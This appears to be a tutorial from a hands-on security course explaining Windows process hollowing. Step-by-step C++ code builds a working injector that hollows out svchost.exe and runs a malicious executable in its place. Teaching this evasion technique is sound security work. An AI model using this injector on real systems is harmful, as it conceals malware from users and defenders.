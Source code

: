 # Process Hollowing

In the previous task, we discussed how to use shellcode injection to inject malicious code into a legitimate process. In this task, we will cover **process hollowing**. Similar to shellcode injection, this technique allows injecting an entire malicious file into a process. This is accomplished by “hollowing” or un-mapping the process and injecting specific PE (Portable Executable) data and sections into the process.

## Overview of Process Hollowing

At a high level, process hollowing can be broken down into six steps:

1. Create a target process in a suspended state.
2. Open a malicious image.
3. Un-map legitimate code from process memory.
4. Allocate memory locations for malicious code and write each section into the address space.
5. Set an entry point for the malicious code.
6. Take the target process out of a suspended state.

The steps can also be visualized graphically to depict how Windows API calls interact with process memory.

We will break down a basic process hollowing injector to identify each of the steps and explain them in more depth below.

---

## Step 1: Create a Target Process in a Suspended State

To create a target process in a suspended state, we use the `CreateProcessA` API. The required parameters for the API call are obtained using the `STARTUPINFOA` and `PROCESS_INFORMATION` structures.

```cpp
LPSTARTUPINFOA target_si = new STARTUPINFOA(); // Defines station, desktop, handles, and appearance of a process
LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION(); // Information about the process and primary thread
CONTEXT c; // Context structure pointer

if (CreateProcessA(
    (LPSTR)"C:\\\\Windows\\\\System32\\\\svchost.exe", // Name of module to execute
    NULL,
    NULL,
    NULL,
    TRUE, // Handles are inherited from the calling process
    CREATE_SUSPENDED, // New process is suspended
    NULL,
    NULL,
    target_si, // Pointer to startup info
    target_pi) == 0) { // Pointer to process information
    cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
    return 1;
}
```

---

## Step 2: Open a Malicious Image

To inject a malicious image, we first obtain a handle for the malicious file using `CreateFileA`.

```cpp
HANDLE hMaliciousCode = CreateFileA(
    (LPCSTR)"C:\\\\Users\\\\tryhackme\\\\malware.exe", // Name of image to obtain
    GENERIC_READ, // Read-only access
    FILE_SHARE_READ, // Read-only share mode
    NULL,
    OPEN_EXISTING, // Open the file if it exists
    NULL,
    NULL
);
```

Next, allocate memory for the malicious image using `VirtualAlloc` and retrieve its size using `GetFileSize`.

```cpp
DWORD maliciousFileSize = GetFileSize(hMaliciousCode, 0);

PVOID pMaliciousImage = VirtualAlloc(
    NULL,
    maliciousFileSize, // File size of malicious image
    0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
    0x04 // Enables read/write access (PAGE_READWRITE)
);
```

Finally, write the malicious image into the allocated memory using `ReadFile`.

```cpp
DWORD numberOfBytesRead;

if (!ReadFile(
    hMaliciousCode, // Handle of malicious image
    pMaliciousImage, // Allocated region of memory
    maliciousFileSize, // File size of malicious image
    &numberOfBytesRead, // Number of bytes read
    NULL
)) {
    cout << "[!] Unable to read Malicious file into memory. Error: " << GetLastError() << endl;
    TerminateProcess(target_pi->hProcess, 0);
    return 1;
}

CloseHandle(hMaliciousCode);
```

---

## Step 3: Un-map Legitimate Code from Process Memory

To un-map memory, we first identify the process's base address and entry point using `GetThreadContext` and `ReadProcessMemory`.

```cpp
c.ContextFlags = CONTEXT_INTEGER; // Only stores CPU registers in the pointer
GetThreadContext(target_pi->hThread, &c); // Obtains the current thread context

PVOID pTargetImageBaseAddress;
ReadProcessMemory(
    target_pi->hProcess, // Handle for the process
    (PVOID)(c.Ebx + 8), // Pointer to the base address
    &pTargetImageBaseAddress, // Store target base address
    sizeof(PVOID), // Bytes to read
    0 // Number of bytes out
);
```

Then, use `ZwUnmapViewOfSection` from `ntdll.dll` to free memory in the target process.

```cpp
HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll");
pfnZwUnmapViewOfSection pZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)GetProcAddress(
    hNtdllBase,
    "ZwUnmapViewOfSection"
);

DWORD dwResult = pZwUnmapViewOfSection(
    target_pi->hProcess,
    pTargetImageBaseAddress
);
```

---

## Step 4: Allocate Memory and Write Malicious Code

Allocate memory in the hollowed process using `VirtualAllocEx`.

```cpp
PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMaliciousImage;
PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew);

DWORD sizeOfMaliciousImage = pNTHeaders->OptionalHeader.SizeOfImage;

PVOID pHollowAddress = VirtualAllocEx(
    target_pi->hProcess,
    pTargetImageBaseAddress,
    sizeOfMaliciousImage,
    0x3000,
    0x40 // PAGE_EXECUTE_READWRITE
);
```

Write the PE headers and sections into the allocated memory.

```cpp
if (!WriteProcessMemory(
    target_pi->hProcess,
    pTargetImageBaseAddress,
    pMaliciousImage,
    pNTHeaders->OptionalHeader.SizeOfHeaders,
    NULL
)) {
    cout << "[!] Writing Headers failed. Error: " << GetLastError() << endl;
}

for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) {
    PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));

    WriteProcessMemory(
        target_pi->hProcess,
        (PVOID)((LPBYTE)pHollowAddress + pSectionHeader->VirtualAddress),
        (PVOID)((LPBYTE)pMaliciousImage + pSectionHeader->PointerToRawData),
        pSectionHeader->SizeOfRawData,
        NULL
    );
}
```

---

## Step 5: Set the Entry Point

Set the entry point for the malicious code using `SetThreadContext`.

```cpp
c.Eax = (SIZE_T)((LPBYTE)pHollowAddress + pNTHeaders->OptionalHeader.AddressOfEntryPoint);

SetThreadContext(
    target_pi->hThread,
    &c
);
```

---

## Step 6: Resume the Target Process

Finally, take the process out of a suspended state using `ResumeThread`.

```cpp
ResumeThread(target_pi->hThread);
```

---

By combining these steps, you can create a process hollowing injector. Use the provided C++ injector to experiment with process hollowing.